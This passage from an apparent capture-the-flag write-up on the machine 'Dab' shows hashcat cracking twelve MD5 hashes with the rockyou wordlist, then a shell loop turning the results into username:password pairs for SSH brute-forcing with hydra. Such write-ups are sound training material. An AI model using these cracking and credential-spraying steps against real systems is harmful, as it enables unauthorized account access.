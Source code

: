

#### Crack Hashes

These are simple md5 hashes, and 12 crack with `hashcat` and rockyou:



    $ hashcat -a 0 -m 0 users-hashes /usr/share/wordlists/rockyou.txt --force -o cracked
    $ hashcat users-hashes --show
    eb95fc1ab8251cf1f8f870e7e4dae54d:megadeth
    fc7992e8952a8ff5000cb7856d8586d2:Princess1
    fe01ce2a7fbac8fafaed7c982a04e229:demo
    2ac9cb7dc02b3c0083eb70898e549b63:Password1
    254e5f2c3beb1a3d03f17253c15c07f3:hacktheplanet
    c21f969b5f03d33d43e04f8f136e7682:default
    9731e89f01c1fb943cf0baa6772d2875:piggy
    0ef9c986fad340989647f0001e3555d4:misfits
    5177790ad6df0ea98db41b37b602367c:strength
    6f9ff93a26a118b460c878dc30e17130:monkeyman
    1e0ad2ec7e8c3cc595a9ec2e3762b117:blaster
    0daa6275280be3cf03f9f9c62f9d26d1:lovesucks1



## Shell as genevieve

### Organize Usernames / Passwords

Now that I have 12 accounts and passwords, I'll check if any can be used
to SSH into Dab. 12 is few enough that I could probably just try them by
hand. Still, it's more fun to automate it a bit.

I've got a file with `hash:password`, and another file with json
`"username": "hash"`. I want to have a file with `username:password` so
I can run it into `hydra`. I'll loop over the hash/password combinations
and then use grep to find the username.



    root@kali# cat cracked | while read c; do hash=$(echo ${c} | cut -d: -f1); pass=$(echo $c | cut -d: -f2); username=$(grep ${hash} users | cut -d: -f1); echo "${username}:${pass}"; done > user_pass

    root@kali# cat user_pass
    wendell:megadeth
    genevieve:Princess1
    demo:demo
    admin:Password1
    d_murphy:hacktheplanet
    default:default
    abbigail:piggy
    aglae:misfits
    irma:strength
    ona:monkeyman
    alec:blaster
    rick:lovesucks1
